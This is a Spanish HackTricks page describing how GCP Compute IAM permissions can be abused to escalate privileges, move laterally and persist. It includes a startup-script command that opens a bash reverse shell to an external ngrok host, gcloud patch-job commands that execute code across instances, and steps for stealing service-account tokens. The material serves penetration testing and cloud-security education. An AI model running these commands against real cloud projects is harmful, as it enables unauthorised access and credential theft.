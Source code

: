 # GCP - Escalada de privilegios en Compute

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipos Rojos de AWS de HackTricks)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>

## Compute

Para obtener más información sobre Compute y VPC (red) en GCP, consulta:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Ten en cuenta que para realizar todos los ataques de escalada de privilegios que requieren modificar los metadatos de la instancia (como agregar nuevos usuarios y claves SSH) es **necesario tener permisos de `actAs` sobre el SA adjunto a la instancia**, ¡incluso si el SA ya está adjunto!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Con ese permiso puedes **modificar** la **información de metadatos** de una **instancia** y cambiar las **claves autorizadas de un usuario**, o **crear** un **nuevo usuario con permisos de sudo**. Por lo tanto, podrás ejecutar SSH en cualquier instancia de VM y robar la Cuenta de Servicio de GCP con la que se está ejecutando la instancia.\
Limitaciones:

* Ten en cuenta que las Cuentas de Servicio de GCP que se ejecutan en instancias de VM por defecto tienen un **alcance muy limitado**
* Necesitarás ser **capaz de contactar al servidor SSH** para iniciar sesión

Para obtener más información sobre cómo explotar este permiso, consulta:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

También podrías realizar este ataque agregando un nuevo script de inicio y reiniciando la instancia:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Este permiso otorga los **mismos privilegios que el permiso anterior** pero sobre instancias específicas en lugar de todo un proyecto. Se aplican **los mismos exploits y limitaciones que en la sección anterior**.

### `compute.instances.setIamPolicy`

Este tipo de permiso te permitirá **otorgarte a ti mismo un rol con los permisos anteriores** y escalar privilegios abusándolos.

### **`compute.instances.osLogin`**

Si **OSLogin está habilitado en la instancia**, con este permiso simplemente puedes ejecutar **`gcloud compute ssh [INSTANCIA]`** y conectarte a la instancia. **No tendrás privilegios de root** dentro de la instancia.

{% hint style="success" %}
Para iniciar sesión con éxito con este permiso dentro de la instancia de VM, necesitas tener el permiso `iam.serviceAccounts.actAs` sobre el SA adjunto a la VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Si **OSLogin está habilitado en la instancia**, con este permiso simplemente puedes ejecutar **`gcloud compute ssh [INSTANCIA]`** y conectarte a la instancia. Tendrás **privilegios de root** dentro de la instancia.

{% hint style="success" %}
Para iniciar sesión con éxito con este permiso dentro de la instancia de VM, necesitas tener el permiso `iam.serviceAccounts.actAs` sobre el SA adjunto a la VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Es posible **crear una máquina virtual con una Cuenta de Servicio asignada y robar el token** de la cuenta de servicio accediendo a los metadatos para escalar privilegios a ella.

El script de explotación para este método se puede encontrar [aquí](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Si tienes los permisos **`osconfig.patchDeployments.create`** o **`osconfig.patchJobs.exec`** puedes crear un [**trabajo de parche o despliegue**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Esto te permitirá moverte lateralmente en el entorno y obtener ejecución de código en todas las instancias de cómputo dentro de un proyecto.

Si deseas explotar esto manualmente, necesitarás crear un [trabajo de parche](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) o [despliegue](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) para un trabajo de parche ejecuta:

`gcloud compute os-config patch-jobs execute --file=patch.json`

Para implementar un despliegue de parche:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

Existen herramientas automatizadas como [patchy](https://github.com/rek7/patchy) para detectar permisos laxos y moverse lateralmente automáticamente.

**También puedes abusar de esto para persistencia.**

### `compute.machineImages.setIamPolicy`

**Otórgate permisos adicionales** para la Imagen de cómputo.

### `compute.snapshots.setIamPolicy`

**Otórgate permisos adicionales** para una instantánea de disco.

### `compute.disks.setIamPolicy`

**Otórgate permisos adicionales** para un disco.

### Bypass de Alcances de Acceso

Siguiendo este enlace encontrarás algunas [**ideas para intentar evadir los alcances de acceso**](../).

### Escalada de Privilegios Local en la instancia de Cómputo de GCP

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referencias

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
